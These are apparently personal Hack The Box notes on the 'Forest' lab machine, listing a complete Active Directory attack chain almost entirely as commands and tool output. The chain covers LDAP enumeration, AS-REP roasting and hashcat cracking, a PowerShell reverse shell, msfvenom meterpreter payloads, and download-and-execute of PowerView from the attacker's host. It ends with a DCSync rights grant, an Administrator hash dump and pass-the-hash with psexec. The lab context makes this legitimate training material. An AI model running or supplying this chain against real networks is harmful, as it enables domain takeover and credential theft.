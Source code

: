 Users enumeration :

sudo ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '{}' | cut -d ' ' -f 2 | sort | uniq | cut -d ',' -f 1 > ~/Desktop/HackingLab/HackTheBox/Machines/Forest/Reports/new_users.txt 


impacket-GetNPUsers -usersfile ~/Desktop/HackingLab/HackTheBox/Machines/Forest/Reports/new_users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.161 'htb.local/


We get user svc-alfresco hash .

$krb5asrep$23$svc-alfresco@HTB.LOCAL:deb3ab8a4e514a753b5b62f6d6658e6a$d315daaf ... 

hashcat -m 18200 ASREProastables.txt /usr/share/wordlists/rockyou.txt
	
svc-alfresco:s3rvice

$cme winrm  10.10.10.161 -u 'svc-alfresco' -p 's3rvice' -x 'wget http://10.10.14.32:8080'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
HTTP        10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
HTTP        10.10.10.161    5985   FOREST           [+] Executed command


------------------


┌─[parrot@parrot]─[~/Tools/CrackMapExec]
└──╼ $cme winrm  10.10.10.161 -u 'svc-alfresco' -p 's3rvice' -X '$LHOST = "10.10.14.32"; $LPORT = 1234; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
HTTP        10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)


------ bad revshell lets do a meterpreter

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f exe -o reverse.exe

msfconsole

set payload windows/x64/meterpreter/reverse_tcp
set lhost 
set lport
exploit

Invoke-WebRequest -Uri http://10.10.14.32:8080/reverse.exe -UseBasicParsing -o reverse.exe

./reverse.exe


IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.32:8080/PowerView.ps1')) 

net group "Exchange Windows Permissions" /add svc-alfresco
$pass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $pass)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync





─╼ $./secretsdump.py htb.local/svc-alfresco:whitenight123@10.10.10.161
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::


┌─[parrot@parrot]─[~/Tools/CrackMapExec]
└──╼ $cme smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)


./psexec.py Administrator@10.10.10.161 -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6
						## NEED LM hash too , it can be blank LM HASH 
C:\Users\Administrator\Desktop> type root.txt




